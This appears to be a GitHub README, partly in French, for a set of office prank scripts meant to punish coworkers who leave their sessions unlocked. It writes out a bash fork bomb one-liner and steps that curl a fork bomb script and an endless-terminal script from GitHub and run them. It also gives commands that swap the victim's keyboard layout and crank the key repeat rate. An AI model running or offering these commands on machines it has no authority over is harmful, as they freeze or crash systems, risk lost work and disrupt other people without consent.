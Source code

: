 # Lock-ton-pc
quelque script pour apprendre à ses collègues à fermer leur session.

## Forkbomb

Denial of service attack wherein a process continually replicates ifself to deplete available system recources, slowding down or crashing the system.

get the content and execute the script :

```
curl https://raw.githubusercontent.com/wagnerwave/Lock-ton-pc/master/forkbomb.sh > forkbomb.sh
chmod +x forkbomb.sh
./forkbomb.sh
```

or excute on a terminal :

```
:(){ :|:& };:

```

## Terminal Monster

Opens terminal at infinity. [work with gnome-terminal]

```
curl https://raw.githubusercontent.com/wagnerwave/Lock-ton-pc/master/Terminal-Monster.sh > Terminal-Monster.sh
chmod +x Terminal-Monster.sh
./Terminal-Monster.sh
```

## Bépo cancer

Change your keyboard to bépo keyboard.

```
setxkbmap fr bepo
```
or :
```
 loadkeys fr-bepo
```

## Sanic Keyboard

Gotta go fast

```
xset r rate 1 220
```
